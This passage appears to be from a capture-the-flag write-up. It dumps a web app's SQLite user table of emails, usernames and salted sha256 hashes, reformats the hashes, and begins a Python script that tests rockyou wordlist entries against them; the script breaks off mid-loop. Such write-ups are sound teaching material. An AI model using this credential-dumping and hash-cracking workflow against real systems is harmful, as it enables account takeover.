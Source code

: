 
In the `db` directory we can see a file that looks interesting `database.db`

```
    root@98aa0f47eb96:/app/db# ls  
    database.db
    root@98aa0f47eb96:/app/db#
```    

  

We can pass it to our team using `base64`, in the db with `sqlite` we can see a table called `user_model` which contains `users` and `hashes`
```
    ❯ sqlite3 database.db
    SQLite version 3.40.1 2022-12-28 14:03:47
    Enter ".help" for usage hints.
    sqlite> .tables
    message_model  smtp_config    user_model   
    sqlite> select * from user_model;
    1|admin@faradaysec.com|administrator|sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    2|octo@faradaysec.com|octo|sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    3|pasta@faradaysec.com|pasta|sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    4|root@faradaysec.com|root|sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    5|pepe@gmail.com|pepe|sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    6|nobody@gmail.com|nobody|sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    7|test@test.test|test|sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
    sqlite>
```    

  
##### Password Spraying
To work easily we will save the data in a file called `hashes` which will contain only `users` and `hashes` separated by `:` in the `user:hash` format
```
    ❯ cat hashes          
    administrator:sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    octo:sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    pasta:sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    root:sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    pepe:sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    nobody:sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    test:sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
 ```   

  

We can't crack it directly with `John`, so we'll convert the words from the `rockyou` wordlist into `hashes`. By comparing each generated hash with the one we have, if we find a match, we get the `password`.
```
    #!/usr/bin/python3
    from werkzeug.security import check_password_hash
    from pwn import log
    
    hashes = open("hashes", "r")
    
    for hash in hashes:
        hash = hash.strip()
        user = hash.split(":")[0]
        hash = hash.split(":")[1]
```